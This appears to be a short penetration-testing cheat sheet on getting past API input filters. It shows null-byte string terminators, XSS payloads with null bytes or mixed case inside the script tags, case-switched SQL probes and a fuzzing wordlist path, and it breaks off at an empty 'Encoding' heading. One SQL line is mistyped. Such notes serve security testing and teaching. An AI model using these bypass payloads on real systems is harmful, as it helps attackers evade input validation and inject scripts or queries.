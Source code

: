 ###  1 -  Null Bytes
- Could terminate the API security control filters that may be in place.

- If the null byte is processed by a backend program thatvalidates user input, that validation program could be bypassed because itstops processing the input.

string terminators you can use
```
%00
0x00
//
;
%
!
?
[]
%5B%5D
%09
%0a
%0b
%0c
%0e

````

Can be placed in **different parts** of the request to attempt to bypass any restrictions in place,

```xml
{
"uname": "<s%00cript>alert(1);</s%00cript>"
"email": "hapi@hacker.com"
}

<--! We can even use it more than once on the same place : >

{
"uname": "<s%000000cript>alert(1);</s%000000cript>"
"email": "hapi@hacker.com"
}
```

Wordlist
```json
~/tools/SecLists-2023.2Fuzzing/Metacharacters.fuzzdb.txt
```

### 2 - Case Switching 

```json
<sCriPt>alert('supervuln')</scrIpT>
SeLeCT * RoM all_tables
sELecT @@vErSion
```
### 3 -  Encoding 
